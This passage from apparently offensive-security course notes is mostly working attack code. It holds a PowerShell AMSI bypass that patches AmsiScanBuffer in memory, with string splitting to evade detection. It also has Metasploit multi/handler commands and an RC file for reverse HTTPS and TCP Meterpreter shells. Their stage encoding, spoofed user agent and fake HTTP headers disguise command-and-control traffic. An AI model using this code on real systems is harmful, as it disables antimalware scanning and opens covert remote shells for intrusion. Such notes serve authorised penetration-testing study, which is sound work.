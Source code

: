 #### Powershell "AmsiScanBuffer" AMSI Binary Patch Bypass

[Full Source](../src/powershell/AmsiScanBuffer-Patch-amsi-bypass.ps1)

```
$z1 = 'AmsiS'
$z2 = 'canB'
$z3 = 'uffer'
$z = $z1 + $z2 + $z3
[IntPtr]$funcAddr = LookupFunc amsi.dll $z
$oldProtectionBuffer = 0
$vp=[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualProtect), (getDelegateType @([IntPtr], [UInt32], [UInt32],[UInt32].MakeByRefType()) ([Bool])))
# in rasta's , arg #2 is "[uint32]5"
$vp.Invoke($funcAddr, [uint32]5, 0x40, [ref]$oldProtectionBuffer)

# original: $buf = [Byte[]] (0x48, 0x31, 0xC0)
$buf = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)

# in rasta's, last arg is 6
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $funcAddr, 6)
```

### Metasploit Payloads

#### Windows Listeners

```
# rev https meterp x64
msfconsole -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_https; set LHOST 192.168.49.83; set LPORT 443; set EXITFUNC thread; set verbose true; exploit -j;"

# Encoded staged rev https meterp x64
msfconsole -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_https; set LHOST 192.168.49.83; set LPORT 443; set EXITFUNC thread; set verbose true; set EnableStageEncoding true; set StageEncoder x64/xor_dynamic; exploit -j"
```

#### Linux Listeners

```
msfconsole -x "use exploit/multi/handler; set payload linux/x64/meterpreter/reverse_tcp; set LHOST 192.168.49.83; set LPORT 80; set verbose true; exploit -j"
```

#### RC Files

Alternatively, store the handler/listener setup in a [configuration](../src/misc/meterp-rev-https-x64.rc).

```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set LHOST 192.168.49.83
set LPORT 443
set EXITFUNC thread
set verbose true
set EnableStageEncoding true
set StageEncoder x64/xor_dynamic
set HttpUserAgent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36 Edg/90.0.818.42"
set HttpServerName Nginx
set HandlerSSLCert /home/sysadm/osep/modules/9-network-filters/skeler.pem
set HttpUnknownRequestResponse "<html><body><h1>zzz</h1></body></html>"
set HttpCookie "PHPSESS: 123913"
set HttpReferer "https://192.168.49.83:8080/logout?t=12313"
```